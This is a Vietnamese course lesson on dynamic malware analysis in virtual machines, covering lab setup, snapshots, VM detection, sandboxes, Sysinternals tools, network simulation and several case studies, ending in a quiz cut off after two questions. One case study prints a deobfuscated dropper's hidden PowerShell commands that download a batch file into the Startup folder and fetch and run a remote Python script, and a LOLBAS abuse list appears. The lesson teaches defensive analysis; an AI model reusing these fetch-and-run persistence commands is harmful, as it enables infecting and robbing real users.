


# Bài 2: Phân Tích Mã Độc trong Máy Ảo (Malware Analysis in Virtual Machines)

---

## 1. Tổng quan & Mindset trước khi bắt đầu

Trước khi tiến hành phân tích mã độc, người phân tích cần chuẩn bị:

- **Mindset đúng đắn**: Luôn giả định mẫu mã độc có thể gây hại nếu không được kiểm soát tốt.
- **Bảo vệ bản thân**: Đảm bảo môi trường phân tích hoàn toàn cô lập, không để mã độc lây lan ra ngoài.
- **Ghi chép cẩn thận**: Ghi lại mọi hành vi quan sát được trong quá trình phân tích để phục vụ báo cáo và nghiên cứu.
- **Cách chạy mã độc an toàn**: Chỉ chạy trong môi trường kiểm soát (máy ảo hoặc máy vật lý cách ly mạng).
- **Thu thập thông tin**: Dùng các công cụ hỗ trợ như IDA Pro, VirusTotal, Any.run, VS Code.
- **Kỹ năng lập trình**: Hỗ trợ đọc hiểu mã nguồn, script, giải mã obfuscation.

!!! warning "Cảnh báo thực tế"
    Một sinh viên trong lab đã cài phần mềm crack trên máy tính của lab, dẫn đến việc công ty phần mềm phát hiện địa chỉ IP và gửi thư đòi bồi thường 354.000 EUR. Đây là hậu quả nghiêm trọng của việc thiếu ý thức về an toàn thông tin.

---

## 2. Phân tích động (Dynamic Analysis)

**Định nghĩa**: Dynamic Analysis là kỹ thuật **chạy mã độc có chủ đích** trong khi theo dõi các hành vi mà nó thực hiện trên hệ thống.

**Yêu cầu bắt buộc**:

- Phải có môi trường an toàn, cô lập.
- Ngăn không cho mã độc lây lan ra máy thật hoặc mạng production.
- Có thể dùng máy thật cách ly mạng hoàn toàn (air-gapped) hoặc máy ảo.

**Tại sao cần Dynamic Analysis?**

Static analysis (phân tích tĩnh) đôi khi gặp bế tắc vì:

- Mã độc bị **obfuscate** (làm rối mã).
- Mã độc bị **pack** (nén/mã hóa payload).
- Người phân tích đã hết các kỹ thuật tĩnh có thể áp dụng.

Dynamic analysis **hiệu quả hơn** vì nó cho thấy trực tiếp mã độc làm gì khi chạy thực tế.

---

## 3. Môi trường phân tích

### 3.1 Máy vật lý (Real Machines)

**Ưu điểm**:

- Một số mã độc phát hiện môi trường máy ảo và không chạy đúng — máy thật tránh được vấn đề này.

**Nhược điểm**:

- Không có kết nối Internet nên một số chức năng của mã độc có thể không hoạt động.
- Khó xóa sạch mã độc sau phân tích — thường phải cài lại hệ điều hành (re-imaging).

---

### 3.2 Máy ảo (Virtual Machines)

Đây là **phương pháp phổ biến nhất** trong phân tích mã độc.

**Ưu điểm**:

- Bảo vệ máy host khỏi bị lây nhiễm.
- Dễ dàng khôi phục về trạng thái sạch bằng snapshot.

!!! danger "Ngoại lệ hiếm gặp"
    Có một số mã độc cực kỳ tinh vi có khả năng **thoát ra khỏi máy ảo** (VM escape) và lây nhiễm sang máy host. Tuy nhiên đây là trường hợp rất hiếm.

---

### 3.3 Các phần mềm máy ảo phổ biến

| Phần mềm | Ghi chú |
|---|---|
| VMware Player | Miễn phí nhưng giới hạn, **không** hỗ trợ snapshot |
| VMware Workstation / Fusion | Đầy đủ tính năng, tốt nhất cho phân tích, nhưng trả phí |
| VirtualBox | Miễn phí, hỗ trợ snapshot |
| Hyper-V | Tích hợp sẵn trong Windows |
| Parallels, Xen | Các lựa chọn thay thế khác |

**Hệ điều hành guest được dùng**: Windows 7/10 vì phần lớn mã độc nhắm vào các phiên bản này.

---

### 3.4 Cấu hình mạng trong VMware

Khi phân tích mã độc, cấu hình mạng là yếu tố quan trọng:

=== "Host-only (Khuyến nghị)"
    - Máy ảo chỉ có thể giao tiếp với máy host.
    - Không có kết nối ra Internet.
    - An toàn nhất cho phân tích ban đầu.

=== "NAT"
    - Máy ảo có thể nhìn thấy nhau và ra Internet.
    - Có một virtual router ở giữa VM và LAN.
    - Giảm nguy cơ so với Bridged nhưng vẫn có rủi ro.

=== "Bridged"
    - Kết nối VM trực tiếp vào LAN.
    - Mã độc có thể gây hại hoặc lây lan ra mạng thật.
    - **Rủi ro cao**: Có thể gửi spam, tham gia DDoS attack.
    - Chỉ dùng khi thực sự cần thiết.

```
[Windows VM] [Linux VM]
     |              |
     +----[Host-only network]----+
                  |
         [Physical Machine (host)]
```

---

## 4. Snapshots

Snapshot là tính năng quan trọng nhất khi phân tích mã độc trong máy ảo.

**Cách hoạt động**:

```
08:00 → Snapshot Taken → 08:30 Launch Malware → 09:00 Malware Executing → 09:30 Revert to Snapshot
```

**Quy trình sử dụng**:

1. Cài đặt môi trường sạch trong VM.
2. Chụp snapshot trước khi chạy mã độc.
3. Chạy mã độc và quan sát.
4. Sau khi phân tích xong, revert về snapshot sạch.

!!! tip "Lợi ích"
    Không cần cài lại OS sau mỗi lần phân tích. Có thể thử nghiệm nhiều lần với cùng một trạng thái sạch ban đầu.

---

## 5. Rủi ro khi dùng VMware để phân tích mã độc

- Mã độc có thể **phát hiện** môi trường VM và thay đổi hành vi (hoặc ngừng chạy).
- VMware có thể có lỗi (bug): Mã độc có thể làm crash hoặc khai thác VMware.
- Mã độc có thể **lây lan** hoặc ảnh hưởng đến máy host — không dùng máy host chứa dữ liệu nhạy cảm.

---

## 6. Mã độc phát hiện môi trường ảo hóa như thế nào?

Mã độc sử dụng nhiều kỹ thuật để phát hiện VM:

### 6.1 Kiểm tra Registry

VMware tạo nhiều registry entry trong guest OS. Mã độc query các entry này:

```
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\{4D36E968-E325-11CE-BFC1-08002BE10318}\0000\DriverDesc
→ Giá trị: "VMware SCSI Controller"

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Class\{...}\0000\ProviderName
→ Giá trị: "VMware, Inc."
```

### 6.2 Kiểm tra tiến trình và file

Các tiến trình VMware thường chạy nền trong VM:

- `VMwareService.exe`
- `VMwareTray.exe`
- Các VMware Tools khác

Mã độc dò tìm các tiến trình và file này để xác nhận đang chạy trong VM.

### 6.3 Kiểm tra địa chỉ MAC

Các địa chỉ MAC bắt đầu bằng các prefix sau thuộc về VMware:

| Prefix MAC | Nhà sản xuất |
|---|---|
| `00-05-69` | VMware |
| `00-0C-29` | VMware |
| `00-1C-14` | VMware |
| `00-50-56` | VMware |

Ngoài ra, BIOS serial number của VM thường có chuỗi `"VMware"`.

---

## 7. Sandbox — Phân tích nhanh

### 7.1 Sandbox là gì?

Sandbox là phần mềm **tất cả trong một** (all-in-one) dành cho phân tích động cơ bản. Nó cung cấp:

- Môi trường ảo hóa giả lập các dịch vụ mạng.
- Tự động chạy mã độc và ghi lại hành vi.
- Xuất báo cáo PDF chi tiết về kết quả.

**Một số sandbox phổ biến**:

- Norman Sandbox
- GFI Sandbox
- Anubis
- Joe Sandbox
- ThreatExpert
- BitBlaze
- Comodo Instant Malware Analysis

### 7.2 Hạn chế của Sandbox

!!! warning "Các điểm yếu của Sandbox"
    
    **1. Không hỗ trợ command-line options**
    Sandbox chỉ chạy executable mà không truyền tham số dòng lệnh. Nếu mã độc cần tham số mới kích hoạt payload, sandbox sẽ bỏ sót.
    
    **2. Không có C2 response**
    Nếu mã độc chờ lệnh từ máy chủ Command & Control (C2) để mở backdoor, sandbox không thể giả lập điều này.
    
    **3. Bỏ sót sự kiện theo thời gian**
    Nếu mã độc ngủ 1 ngày trước khi hoạt động, sandbox có thể bỏ lỡ. Hầu hết sandbox hook hàm `Sleep()` để rút ngắn thời gian chờ, nhưng có nhiều cách ngủ khác nhau mà sandbox không thể xử lý hết.
    
    **4. Phát hiện VM**
    Mã độc có thể nhận ra môi trường sandbox và thay đổi hành vi.
    
    **5. Thiếu điều kiện tiên quyết**
    Một số mã độc cần registry key hoặc file cụ thể có sẵn trên hệ thống (chứa lệnh hoặc key mã hóa).
    
    **6. DLL khó chạy**
    Nếu mã độc là DLL, sandbox không dễ gọi đúng các exported function.
    
    **7. Sai OS**
    Mã độc có thể crash trên Windows XP nhưng chạy bình thường trên Windows 7.
    
    **8. Không thể kết luận ngữ nghĩa**
    Sandbox có thể báo cáo hành vi cơ bản, nhưng không thể tự suy luận rằng mã độc là "công cụ dump SAM hash tùy chỉnh" hay "keylogger với backdoor mã hóa". Người phân tích phải tự kết luận.

---

## 8. Case Study: Mã độc đánh cắp tài khoản mạng xã hội

**Nguồn**: [vmtien.id.vn](https://vmtien.id.vn/ben-trong-ma-doc-danh-cap-tai-khoan-mang-xa-hoi-co-gi/)

**Công cụ sử dụng**: Windows 10 (VMWare), IDA Pro, VirusTotal, Any.run, VS Code

### 8.1 Vector lây nhiễm

Nạn nhân nhận được file `.rar` qua mạng xã hội với tên giả mạo ảnh sản phẩm:

```
Photo-images-Mau-San-Pham_2023-07-21-58.rar
```

Bên trong chứa file:

```
Photo-images-Mau-San-Pham_2023-07-21-58.bat
```

Windows Defender không phát hiện. Chỉ có **Kaspersky** và **Checkpoint** (ZoneAlarm) gắn nhãn là `HEUR:Trojan.BAT.Softer.gen`.

### 8.2 Kỹ thuật obfuscation

File `.bat` sử dụng kỹ thuật gán biến một ký tự để che giấu nội dung:

```batch
@echo off
set eQ=y
set MA=0
set RA=D
set JA=$
set dA=t
set VQ=U
set Y=b
set bQ=m
...
setlocal EnableDelayedExpansion
```

Sau khi deobfuscate (dùng AI/công cụ hỗ trợ):

```batch
@echo off
set enableQuietMode=yes
set mainVariable=0
set randomVariable=D
set joinVariable=$
...
```

### 8.3 Payload sau khi giải mã

Sau khi decode obfuscation, lệnh thực sự được thực thi:

```batch
start chrome https://www.aliexpress.us/

C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden ^
Invoke-WebRequest -URI https://raw.githubusercontent.com/alibaba20232023/haivcl/main/start ^
-OutFile "C:\\Users\\$([Environment]::UserName)\\AppData\\Roaming\\Microsoft\\Windows\\'Start Menu'\\Programs\\Startup\\WindowsSecure.bat"

C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden ^
Invoke-WebRequest -URI https://gitlab.com/alibaba2023/alibaba/-/raw/632ff.../Document.zip ^
-OutFile C:\\Users\\Public\\Document.zip

C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden ^
Expand-Archive C:\\Users\\Public\\Document.zip -DestinationPath C:\\Users\\Public\\Document

C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden ^
Invoke-WebRequest -URI https://gist.githubusercontent.com/.../cty16 ^
-OutFile C:\\Users\\Public\\Document\\project.py

C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden ^
C:\\Users\\Public\\Document\\python C:\\Users\\Public\\Document\\project.py

start chrome https://www.aliexpress.us/
```

### 8.4 Phân tích từng bước

**Bước 1**: Mở tab Chrome giả mạo (AliExpress) để đánh lạc hướng nạn nhân.

**Bước 2**: Tải mã độc persistence từ GitHub:

```
https://raw.githubusercontent.com/alibaba20232023/haivcl/main/start
```

Lưu vào thư mục Startup của Windows với tên `WindowsSecure.bat`:

```
C:\Users\<Username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\WindowsSecure.bat
```

**Bước 3**: Tải file `Document.zip` từ GitLab.

**Bước 4**: Giải nén `Document.zip` vào `C:\Users\Public\Document`.

**Bước 5**: Tải Python script `project.py` từ GitHub Gist.

**Bước 6**: Chạy `project.py` bằng Python được đóng gói sẵn trong zip.

**Bước 7**: Lại mở tab AliExpress để che giấu hành vi.

!!! note "Kỹ thuật persistence"
    Mã độc tự đặt vào thư mục Startup của Windows, đảm bảo nó sẽ tự động chạy mỗi khi người dùng đăng nhập vào Windows.

---

## 9. Case Study: SolarWinds Supply Chain Attack

**Nguồn**: [Google Cloud Threat Intelligence](https://cloud.google.com/blog/topics/threat-intelligence/evasive-attacker-leverages-solarwinds-supply-chain-compromises-with-sunburst-backdoor/)

### 9.1 Tổng quan

| Thuộc tính | Chi tiết |
|---|---|
| Phát hiện bởi | FireEye |
| Nhóm tấn công | APT29 (Cozy Bear) |
| Loại tấn công | Supply chain attack |
| Trojan | SUNBURST |
| File bị nhiễm | `SolarWinds.Orion.Core.BusinessLayer.dll` |
| Loader | `SolarWinds.BusinessLayerHost.exe` |

### 9.2 Quy trình tấn công

```mermaid
flowchart LR
    A[SolarWinds Build System bị compromise] --> B[SUNBURST được nhúng vào DLL hợp lệ]
    B --> C[DLL được ký số hợp lệ bởi SolarWinds]
    C --> D[Phân phối qua cập nhật Orion]
    D --> E[Nạn nhân cài đặt update nhiễm độc]
    E --> F[Sleep 2 tuần]
    F --> G[Kết nối C2 qua DNS/HTTP]
    G --> H[TEARDROP loader]
    H --> I[BEACON - Cobalt Strike]
    I --> J[Lateral Movement]
```



### 9.3 Kỹ thuật đáng chú ý

**Ngủ 2 tuần trước khi hoạt động**: Giúp tránh phát hiện trong môi trường sandbox.

**Ký số hợp lệ**: File DLL có chữ ký số hợp lệ của SolarWinds Worldwide LLC (ký ngày 24/3/2020), qua đó vượt qua kiểm tra whitelist.

**Steganography trong HTTP traffic**: Dữ liệu lệnh được ẩn trong các chuỗi GUID và HEX trong HTTP response body, trông như XML bình thường liên quan đến .NET assemblies. Lệnh được trích xuất bằng regex:

```
[{[0-9a-f-]{36}}|[0-9a-f]{32}|[0-9a-f]{16}]
```

Sau đó:
1. Lọc ký tự non-hex, join lại.
2. HEX decode.
3. DWORD đầu tiên = kích thước message thực.
4. XOR single-byte với byte đầu tiên của message.
5. DEFLATE decompress.
6. Byte đầu = JobEngine enum → dispatch lệnh.

**Lateral Movement**:

- Dùng hostname của nạn nhân để tránh bị phát hiện.
- IP địa chỉ C2 nằm trong cùng quốc gia với nạn nhân.
- Thay thế file tạm thời và dùng Scheduled Task tạm thời.
- Dùng credentials khác nhau.

**MITRE ATT&CK Techniques**:

```
T1012 - Query Registry
T1027 - Obfuscated Files or Information
T1057 - Process Discovery
T1070.004 - File Deletion
T1071.001 - Web Protocols
T1071.004 - DNS
T1083 - File and Directory Discovery
T1105 - Ingress Tool Transfer
T1132.001 - Standard Encoding
T1195.002 - Compromise Software Supply Chain
T1518.001 - Security Software Discovery
T1543.003 - Windows Service
T1553.002 - Code Signing
T1568.002 - Domain Generation Algorithms
T1569.002 - Service Execution
T1584 - Compromise Infrastructure
```

---

## 10. Case Study: PRC-Nexus Espionage — Tấn công nhắm vào ngoại giao

**Nguồn**: [Google Cloud Threat Intelligence](https://cloud.google.com/blog/topics/threat-intelligence/prc-nexus-espionage-targets-diplomats)

### 10.1 Tổng quan chiến dịch

Chiến dịch gián điệp do nhóm UNC6384 (liên quan PRC) thực hiện, nhắm vào các nhà ngoại giao thông qua kỹ thuật **Adversary-in-the-Middle (AitM)** kết hợp social engineering.

### 10.2 Attack chain



### 10.3 Kỹ thuật lừa đảo người dùng

Landing page hoàn toàn trống với thanh vàng và nút "Install Missing Plugins". Khi nạn nhân tin rằng cần cài plugin mới xem được nội dung trang, họ sẵn sàng bỏ qua cảnh báo bảo mật của Windows để thực thi payload độc hại.

### 10.4 Chuỗi file và payload

| File | Mô tả | SHA-256 (prefix) |
|---|---|---|
| `AdobePlugins.exe` | STATICPLUGIN | `65c42a7e...` |
| `20250509.bmp` (thực ra là MSI) | Chứa 3 file payload | `32998665...` |
| `cnmpaui.exe` | Canon IJ Printer Assistant Tool (hợp lệ) | `4ed76fa6...` |
| `cnmpaui.dll` | CANONSTAGER | `e787f64a...` |
| `cnmplog.dat` | RC4 Encrypted SOGU.SEC | `cc4db3d8...` |

**Kỹ thuật DLL side-loading**: Dùng file EXE hợp lệ (`cnmpaui.exe`) để load DLL độc hại (`cnmpaui.dll`) thay vì DLL gốc của Canon.

### 10.5 Kỹ thuật evasion của CANONSTAGER

**API Hashing + TLS Array**:

- API hashing che giấu Windows API nào đang được dùng.
- Địa chỉ hàm sau khi resolve được lưu vào TLS (Thread Local Storage) array thay vì bộ nhớ thông thường.
- TLS array ít bị công cụ bảo mật và analyst chú ý hơn.

```asm
push    6501CBE1h              ; Hash của GetCurrentDirectoryW
call    resolve_api_hash       ; Resolve hash → địa chỉ hàm
mov     ecx, TlsIndex
mov     edx, large fs:2Ch      ; Thread Information Block (TIB)
                               ; 2Ch = TLS array
mov     [ecx+8], eax           ; Lưu function pointer vào offset 0x8 của TLS array
```

**Indirect Code Execution qua Windows Message Queue**:

CANONSTAGER ẩn code launcher trong custom `window_procedure` và trigger gián tiếp qua Windows message queue:



Lý do dùng cách này:
- Hạ thấp khả năng công cụ bảo mật phát hiện.
- Làm rối control flow bằng cách "giấu" code trong window procedure.
- Kích hoạt bất đồng bộ (asynchronously).

**Deploy SOGU.SEC**:

1. Đọc file `cnmplog.dat` đã được đóng gói trong MSI.
2. Giải mã bằng hardcoded 16-byte RC4 key.
3. Thực thi payload giải mã qua `EnumSystemGeoID` callback function.

### 10.6 Network Indicators

| Loại | IOC |
|---|---|
| Landing Page | `https://mediareleaseupdates[.]com/AdobePlugins[.]html` |
| STATICPLUGIN | `https://mediareleaseupdates[.]com/AdobePlugins[.]exe` |
| MSI Package | `https://mediareleaseupdates[.]com/20250509[.]bmp` |
| Hosting IP | `103.79.120[.]72` |
| C2 IP | `166.88.2[.]90` |

---

## 11. Living Off The Land Binaries (LOLBAS)

### 11.1 Định nghĩa

LOLBAS (Living Off The Land Binaries, Scripts and Libraries) là các file **có sẵn trong Windows** (Microsoft-signed) nhưng có thể bị lạm dụng để thực hiện hành vi độc hại.

**Tiêu chí LOLBAS**:

- Là file được Microsoft ký số, native trong Windows.
- Có chức năng "bất ngờ" ngoài mục đích ban đầu.
- Hữu ích cho APT hoặc Red Team.

### 11.2 Các khả năng bị lạm dụng

- **Executing code**: Thực thi mã tùy ý.
- **Compiling code**: Biên dịch mã ngay trên máy nạn nhân.
- **File operations**: Download, upload, copy file.
- **Persistence**: Ẩn dữ liệu trong Alternate Data Streams (ADS), thực thi khi logon.
- **UAC bypass**: Vượt qua User Account Control.
- **Log evasion/modification**: Xóa hoặc sửa log.
- **DLL side-loading/hijacking**: Tải DLL độc hại.

### 11.3 Một số LOLBAS phổ biến

```
Bitsadmin.exe    - Download/upload file qua BITS service
Certutil.exe     - Download file, encode/decode base64
Cmd.exe          - Thực thi lệnh
Explorer.exe     - Thực thi file
Forfiles.exe     - Thực thi lệnh qua file iteration
Hh.exe           - Thực thi HTML Help file
Msbuild.exe      - Build và thực thi .NET code
Rundll32.exe     - Thực thi DLL function
Teams.exe        - Có thể bị lạm dụng
Xwizard.exe      - Thực thi COM object
WMIC.exe         - Thực thi lệnh WMI
```

**Tham khảo**: [lolbas-project.github.io](https://lolbas-project.github.io/) — hiện có 194 binaries được liệt kê.

---

## 12. Chạy mã độc — Launching DLLs

### 12.1 Vấn đề với DLL

File `.exe` có thể chạy trực tiếp bằng double-click. Nhưng file `.dll` **không thể** chạy trực tiếp theo cách thông thường.

### 12.2 Dùng Rundll32.exe

Windows cung cấp sẵn công cụ `Rundll32.exe` để load và gọi function từ DLL:

```cmd
rundll32.exe DLLname, Export arguments
```

**Ví dụ**: File `rip.dll` có các exported functions: `Install`, `Uninstall`.

```cmd
rundll32.exe rip.dll, Install
```

### 12.3 Dùng ordinal thay vì tên

Một số DLL export function theo số thứ tự (ordinal) thay vì tên:

```cmd
rundll32.exe xyzzy.dll, #5
```

### 12.4 Convert DLL thành EXE

Cũng có thể sửa PE header để chuyển DLL thành EXE, nhưng đây là kỹ thuật nâng cao hơn.

### 12.5 Tìm exported functions

Dùng các công cụ như:

- **Dependency Walker**
- **PEview**
- **PE Explorer**

Để xem danh sách exported functions của DLL trước khi chạy.

---

## 13. Giám sát với Process Monitor (Procmon)

### 13.1 Procmon là gì?

Process Monitor là công cụ của Sysinternals giám sát theo thời gian thực:

- **Registry**: Đọc/ghi registry.
- **File system**: Tạo/đọc/ghi/xóa file.
- **Network**: Kết nối mạng.
- **Process/Thread**: Tạo/kết thúc tiến trình.

### 13.2 Cách sử dụng Procmon trong phân tích mã độc

**Quy trình**:

1. Mở Procmon.
2. Set filter trên tên file mã độc.
3. Xóa (Clear) tất cả events hiện có.
4. Chạy mã độc.
5. Quan sát các events được ghi lại.

!!! warning "Lưu ý quan trọng"
    Không chạy Procmon quá lâu vì nó lưu **tất cả** events vào RAM. Nếu để quá lâu sẽ hết RAM và crash máy.

### 13.3 Toolbar và các bộ lọc mặc định

| Icon | Chức năng |
|---|---|
| Start/Stop Capture | Bật/tắt ghi nhận events |
| Registry | Lọc hiển thị registry events |
| File system | Lọc hiển thị file system events |
| Network | Lọc hiển thị network events |
| Process | Lọc hiển thị process events |
| Erase | Xóa tất cả events đã ghi |
| Filter | Mở cửa sổ filter |

### 13.4 Thiết lập Filter

Mở filter: **Filter → Filter**

**Ví dụ filter theo tên process**:

```
Process Name | is | calc.exe | then Include
```

**Ví dụ filter theo operation**:

```
Operation | is | RegSetValue | then Include
```

**Các filter hữu ích nhất**:

- `Process Name` — Chỉ theo dõi mã độc cần phân tích.
- `Operation` — Lọc theo loại hành động (RegSetValue, CreateFile, WriteFile...).
- `Detail` — Lọc theo chi tiết của operation.

### 13.5 Ý nghĩa của từng loại hoạt động

| Loại | Ý nghĩa khi phân tích |
|---|---|
| Registry events | Mã độc cài persistence, thay đổi cấu hình hệ thống như thế nào |
| File system events | File nào được tạo, configuration file nào được dùng |
| Process events | Mã độc có spawn thêm process không |
| Network events | Cổng nào đang lắng nghe, kết nối đến đâu |

### 13.6 Phát hiện DLL Hijacking bằng Procmon

Khi filter Procmon để tìm `NAME NOT FOUND` trong Path + Operation là `Load Image`, có thể phát hiện:

- DLL nào đang bị tìm kiếm nhưng không tìm thấy.
- Thứ tự tìm kiếm DLL của Windows (DLL search order).
- Vị trí mà kẻ tấn công đã đặt DLL độc hại để hijack.

---

## 14. Xem tiến trình với Process Explorer

### 14.1 Process Explorer là gì?

Process Explorer (Sysinternals) là phiên bản nâng cao của Task Manager, hiển thị:

| Cột | Ý nghĩa |
|---|---|
| Process | Tên tiến trình |
| PID | Process ID |
| CPU | Mức sử dụng CPU |
| Description | Mô tả tiến trình |
| Company Name | Nhà sản xuất |

**Màu sắc phân biệt**:

- Hồng: Services
- Xanh dương: Processes thông thường
- Xanh lá: Process vừa được tạo (tạm thời)
- Đỏ: Process vừa kết thúc (tạm thời)

### 14.2 DLL Mode

Chuyển sang chế độ DLL (View → Lower Pane View → DLLs) để xem tất cả DLL mà một tiến trình đang load. Hữu ích khi tìm DLL độc hại được inject hoặc side-load.

### 14.3 Properties của tiến trình

Trong Properties của một process có thể xem:

- **DEP status**: Data Execution Prevention có bật không.
- **ASLR status**: Address Space Layout Randomization có bật không.
- **Verify button**: Kiểm tra chữ ký số của file trên disk.

!!! warning "Hạn chế của Verify"
    Verify chỉ kiểm tra file trên disk, không kiểm tra image đang chạy trong RAM. Do đó nó sẽ **không phát hiện process replacement** (process hollowing) — kỹ thuật thay thế code của process hợp lệ bằng mã độc trong memory.

### 14.4 Phát hiện tài liệu độc hại

Quy trình:

1. Mở Process Explorer.
2. Mở tài liệu nghi ngờ (PDF, Word...).
3. Quan sát xem tài liệu có spawn tiến trình mới không.
4. Nếu có, dùng tab Image trong Properties để tìm vị trí file mã độc trên disk.

---

## 15. So sánh Registry với Regshot

### 15.1 Regshot là gì?

Regshot là công cụ **open source** cho phép chụp và so sánh 2 snapshot của registry.

### 15.2 Quy trình sử dụng

```
Bước 1: Mở Regshot → Click "1st Shot" (snapshot trước khi chạy mã độc)
         ↓
Bước 2: Chạy mã độc, chờ nó thực hiện các thay đổi
         ↓
Bước 3: Click "2nd Shot" (snapshot sau khi mã độc chạy)
         ↓
Bước 4: Click "Compare" → Regshot xuất báo cáo so sánh
```

Kết quả so sánh cho thấy registry key nào được:
- **Thêm mới** (Added)
- **Xóa đi** (Deleted)
- **Thay đổi giá trị** (Modified)

Tùy chọn scan thêm thư mục file system (ví dụ: `C:\Windows`) để phát hiện thay đổi file.

---

## 16. Giả mạo mạng (Faking a Network)

### 16.1 ApateDNS

ApateDNS là công cụ redirect DNS resolution về địa chỉ IP tùy chỉnh (mặc định là địa chỉ local). Giúp phân tích domain nào mã độc cố kết nối đến.

!!! note "Hạn chế thực tế"
    Trong thực tế, ApateDNS có thể không hoạt động tốt trên Windows XP hoặc 7. `nslookup` hoạt động nhưng browser và ping không redirect được. Giải pháp thay thế tốt hơn là dùng INetSim.

### 16.2 INetSim

INetSim (Internet Services Simulation Suite) chạy trên Linux, giả lập hầu hết các dịch vụ Internet:

| Port | Dịch vụ |
|---|---|
| 53 | DNS |
| 80 | HTTP |
| 443 | HTTPS |
| 21 | FTP |
| 25 | SMTP |
| 110 | POP3 |
| 6667 | IRC |
| ... | Nhiều dịch vụ khác |

INetSim trả về response giả cho mọi request, giúp mã độc "nghĩ" rằng nó đang kết nối thành công với C2 server trong khi thực tế tất cả traffic được capture và phân tích.

### 16.3 Ncat (Netcat)

Ncat (đi kèm với Nmap) có thể lắng nghe trên cổng cụ thể và hiển thị raw HTTP/TCP request mà mã độc gửi đến:

```cmd
ncat -l 80
```

Sau đó quan sát request headers và body mà mã độc gửi.

### 16.4 Wireshark

Wireshark là packet sniffer capture toàn bộ network traffic. Trong phân tích mã độc:

- Capture traffic giữa VM mã độc và INetSim.
- Filter theo protocol: `tcp`, `dns`, `http`...
- **Follow TCP Stream**: Xem toàn bộ nội dung của một phiên kết nối, có thể lưu stream ra file.

### 16.5 Cấu hình mạng lab đầy đủ

```
[Windows VM - Mã độc]
  IP: 192.168.117.170
  DNS: 127.0.0.1
     |
     | (Host-only network)
     |
[Linux VM - INetSim + ApateDNS]
  IP: 192.168.117.169
  Cung cấp: DNS, HTTP, HTTPS, FTP...
```

**Luồng hoạt động**:

1. Mã độc gửi DNS request → ApateDNS redirect về `192.168.117.169`.
2. Mã độc gửi HTTP GET → INetSim trả về trang web giả.
3. Wireshark capture toàn bộ traffic trên interface.

---

## 17. Quy trình tổng hợp phân tích động

**Chuẩn bị môi trường**:

```
1. Khởi động Windows VM (đã cài Procmon, Process Explorer, Regshot, Wireshark)
2. Khởi động Linux VM với INetSim
3. Cấu hình network: Host-only
4. Set DNS của Windows VM trỏ về IP của Linux VM
```

**Thực hiện phân tích**:

```
1. Mở Wireshark → Bắt đầu capture
2. Chụp Regshot "1st Shot"
3. Mở Procmon → Set filter theo tên mã độc → Clear events
4. Mở Process Explorer → Quan sát
5. Chạy mã độc
6. Quan sát Process Explorer xem có tiến trình mới không
7. Sau khi mã độc chạy đủ lâu:
   - Chụp Regshot "2nd Shot" → Compare
   - Lưu log Procmon
   - Dừng Wireshark capture → Phân tích traffic
```

---

## Câu hỏi trắc nghiệm

**Câu 1.** Dynamic Analysis (Phân tích động) khác gì so với Static Analysis?

- A. Dynamic Analysis không cần chạy mã độc, trong khi Static Analysis thì có
- B. Dynamic Analysis chạy mã độc để quan sát hành vi, Static Analysis phân tích mà không thực thi
- C. Dynamic Analysis nhanh hơn và không cần môi trường đặc biệt
- D. Static Analysis chỉ áp dụng cho file .exe, Dynamic Analysis cho file .dll

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Dynamic Analysis = chạy mã độc có chủ đích và theo dõi hành vi. Static Analysis = phân tích mã độc mà không thực thi (đọc code, strings, cấu trúc PE header...).

---

**Câu 2.** Lý do chính nào khiến Dynamic Analysis được ưa chuộng hơn Static Analysis trong nhiều trường hợp?

- A. Dynamic Analysis không cần công cụ đặc biệt
- B. Static Analysis không thể phân tích file .dll
- C. Obfuscation và packing có thể khiến Static Analysis bất lực, trong khi Dynamic Analysis trực tiếp quan sát hành vi thực tế
- D. Dynamic Analysis ít tốn thời gian hơn

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
